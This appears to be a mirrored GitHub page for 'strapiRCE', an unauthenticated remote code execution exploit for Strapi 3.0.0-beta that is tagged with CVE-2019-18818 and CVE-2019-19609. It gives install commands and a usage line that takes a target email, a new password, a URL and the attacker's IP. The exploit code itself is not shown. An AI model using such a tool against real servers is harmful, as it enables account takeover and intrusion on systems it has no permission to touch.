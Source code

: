 # strapiRCE

Strapi 3.0.0-beta - Remote Code Execution (RCE) (Unauthenticated)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Invertebr4do](https://github.com/Invertebr4do) |
| Url      | [https://github.com/Invertebr4do/strapiRCE](https://github.com/Invertebr4do/strapiRCE)                                               |
| Stars    | 0                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2019-18818* cve-2019-19609* exploit* strapi

</details>

## Readme

# strapiRCE
Strapi 3.0.0-beta - Remote Code Execution (RCE) (Unauthenticated)

## Tested in:
 - Kali linux 2021.4a
 - Parrot security 4.11.3
 
## Installation:
```
git clone https://github.com/Invertebr4do/strapiRCE 

cd strapiRCE && chmod +x strapiRCE.py
```

## Usage:
```
./strapiRCE.py <EMAIL> <NEW_PASSWORD> <URL> <YOUR_IP>
```
[![code](https://github.com/Invertebr4do/strapiRCE/blob/main/strapiRCE.png?raw=true "code")](https://github.com/Invertebr4do/strapiRCE/blob/main/strapiRCE.png?raw=true "code")



## Get the content

```
git clone https://github.com/Invertebr4do/strapiRCE
cd strapiRCE
```

{% embed url="https://github.com/Invertebr4do/strapiRCE" %}

<figure><img src="https://avatars.githubusercontent.com/u/80938524?v=4" alt=""><figcaption><p>Invertebr4do</p></figcaption></figure>
